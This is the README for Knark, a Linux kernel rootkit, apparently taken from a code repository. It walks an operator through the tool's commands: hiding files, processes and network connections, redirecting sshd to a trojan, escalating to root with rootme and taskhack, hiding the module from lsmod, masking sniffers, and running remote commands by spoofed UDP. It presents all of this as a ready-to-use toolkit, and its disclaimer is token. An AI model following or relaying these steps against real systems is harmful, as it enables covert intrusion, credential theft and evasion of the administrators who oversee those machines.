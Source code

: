 .. .readme-knark:



		Knark v0.59 by Creed @ #hack.se
		   email: creed@sekure.net



Knark is a kernel-based rootkit for Linux 2.2.
==============================================

No part of knark may be used to break the law, or to cause damage of any
kind. And I'm not responsible for anything you do with it.


The heart of the package, knark.c, is a Linux lkm (loadable kernel-module).
Type "make" to compile knark and the programs included, and then "insmod knark"
to load the lkm. When knark is loaded, the hidden directory /proc/knark is
created. The following files are created in this directory:

author		shameless self-promotion banner :-)
files		list of hidden files on the system
nethides	list of strings hidden in /proc/net/[tcp|udp]
pids		list of hidden pids, ps-like output
redirects	list of exec-redirection entries



Changes since v0.50:
Added remote command execution, and added the client-program rexec.


These are the programs included in the package (they all depend on knark.o
to be loaded, except for taskhack.c which modifies /dev/kmem directly):


hidef	Used to hide files on the system.
	Create your hax0r-directory /usr/lib/.hax0r, and type:
	./hidef /usr/lib/.hax0r
	Now this directory will be hidden, and won't be shown by ls or du.
	Subdirs and files will be hidden as well, so you don't have to
	hidef anything you put in this directory.


unhidef	Used to unhide hidden files. You can cat /proc/knark/files if you've
	forgotten which files you've hidden. Type:
	./unhidef /usr/lib/.hax0r
	to make your previously hidden directory visible again.
	However, there is a bug in the module which makes directory trees
	start from their mount-point. This means, if you have a filesystem
	mounted to /mnt, and you hide the file /mnt/secret, this file will
	show up as /secret in /proc/knark/files. Files in the root-filesystem
	aren't affected.


ered	Used to configure exec-redirection.
	Copy your sshd trojan to /usr/lib/.hax0r/sshd_trojan, and type:
	./ered /usr/local/sbin/sshd /usr/lib/.hax0r/sshd_trojan
	Now, when /usr/local/sbin/sshd is supposed to be executed, your
	trojan program will be executed instead. To clear all exec-redirection
	entries, type:
	./ered -c


nethide	Used to hide strings in /proc/net/tcp and /proc/net/udp. This is
	where netstat gets it's information. Type:
	./nethide ":ABCD "
	to hide connections to/from port ABCD hex (43981 dec). This will
	"grep -v" the line ":ABCD " from /proc/net/[tcp|udp].
	You have to understand the output from /proc/net/[tcp|udp] to use
	this program. Lets say that you have sshd running on your box.
	Connect to localhost port 22, and type:
	netstat -at
	One of the lines looks like this:
	Proto Recv-Q Send-Q Local Address      Foreign Address  State
	tcp        0      0 localhost:ssh      localhost:1023   ESTABLISHED
	And now, lets check /proc/net/tcp. Type:
	cat /proc/net/tcp
	One of the lines looks like this:
	local_address rem_address   blablabla...
	0:0100007F:0016 0100007F:03FF 01 00000000:00000000 00:00000000 00000000
	If we want to hide everything about ip-address 127.0.0.1, we have to
	translate it to this format. Start with 127: 7F in hex. Then 0: 00
	in hex, which gives us 007F. And 0 again: 00007F, and at last 1
	which gives us the number 0100007F. Now, if we want to hide
	everything about port 22 and ip-address 127.0.0.1 it looks like this:
	0100007F:0016 (0016 is port 22 in hex). So, typing:
	./nethide "0100007F:0016" will hide connections to/from localhost
	port 22, and typing:
	./nethide ":ABCD " will remove all lines containing ":ABCD ". It's
	like "grep -v". Do you get it? :-)


rootme	Used to gain root-access without using suid programs. Type:
	./rootme /bin/sh
	to execute /bin/sh with root-privs. This will also work:
	./rootme /bin/ls -l /root
	You have to type the whole path-name of the binary to execute.


taskhack Used to change *uid's and *gid's of running processes. Type:
	./taskhack -alluid=0 pid
	This will change all *uid's (uid, euid, suid, fsuid) of process
	"pid" to 0 (root). Type:
	ps aux | grep bash
	creed       91  0.0  1.3  1424   824   1 S    15:31   0:00 -bash
	Now, we want to change the euid of this process to 0 (root). Type:
	./taskhack -euid=0 91
	ps aux | grep bash
	root (!)    91  0.0  1.3  1424   824   1 S    15:31   0:00 -bash
	Isn't this just great? :-).

*rexec	Used to execute commands remotely on a knark-server. Type:
*	./rexec www.microsoft.com haxored.server.nu /bin/touch /LUDER
*	This will send a spoofed udp packet from www.microsoft.com:53 to
*	haxored.server.nu:53, which tells haxored.server.nu to /bin/touch
*	/LUDER. If you want to try this on localhost, don't specify a
*	spoofed address different from your own, since the kernel won't
*	accept it.
*	./rexec localhost localhost /bin/touch /LUDER
*	will do it for you.

(* = newly added thing)


And knark has eaven more features than this:
sending signal 31 to a process will hide it's directory in /proc, making
it invisible to ps and top. Type:
kill -31 pid
If this process fork's or clone's, all childs of the process will be hidden.
This means, that if you hide your shell with kill -31, all commands you
issue will be invisible. That's neat :-).
If you want to make a process visible again for some reason, and you've
forgotten the pid, just cat /proc/knark/pids. This will give you a ps-like
output of all hidden processes.

Sniffers sets the network interface in promiscuous mode, and many simple
sniffer-detectors rely on this. When knark is loaded, no network interface
will show the IFF_PROMISC flag when SIOCGIFFLAGS is requested. Hiding the
sniffer with signal 31 is also recommended.

This package includes another lkm than knark; modhide. When modhide is
loaded, it removes the latest loaded module from the module list, thus
hiding it from lsmod, and removing it from /proc/modules. Type:
insmod knark
lsmod | grep knark
knark                   6640   0  (unused)
insmod modhide
(error messages)
lsmod | grep knark
*noting*

But be careful, you might have to reboot to get rid of knark if you load
modhide, since it can't be removed with normal methods, like rmmod.
Have fun. And stay out of trouble.

By the way, I don't recommend you to unload the module, there is some kind
of bug that can make strange things happen. Sometimes it works fine, sometimes
a process dies and sometimes your computer will look like a banana.
This is not a bug-free release. Please let me know if you find things to
improve.


.. code-block:: console

   email: creed@sekure.net
   Ircnet and EFNet: Creed (or Creed_ or something like that) @sekure.net
